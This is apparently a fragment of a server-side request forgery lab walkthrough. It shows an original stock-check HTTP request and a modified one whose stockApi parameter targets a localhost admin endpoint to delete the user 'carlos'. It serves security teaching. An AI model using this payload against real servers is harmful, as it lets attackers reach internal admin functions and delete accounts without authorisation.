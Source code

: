 Original request:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Modified request:

<pre>
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=<b>http://localhost/admin/delete?username=carlos</b>
</pre>



